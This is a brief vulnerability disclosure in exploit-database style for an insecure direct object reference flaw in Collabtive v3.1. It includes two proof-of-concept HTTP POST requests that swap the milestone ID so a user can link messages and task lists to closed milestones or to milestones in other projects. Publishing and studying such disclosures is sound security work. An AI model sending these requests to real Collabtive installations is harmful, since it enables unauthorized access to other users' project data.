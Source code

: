# Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to cite the milestone that is closed or belongs to other project(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /managemessage.php?action=add&id=1 HTTP/1.1
...

&privateRecipient=0&title=aaaaa&=&=&=&=&=&=&=&=&=&=&=&=&text=aaa&milestone=4(CHANGE HERE)&sendto[]=all&=&=
```

```
POST /managetasklist.php?action=add&id=1 HTTP/1.1
...

name=tt&desc=aaaa&milestone=3(CHANGE HERE)
```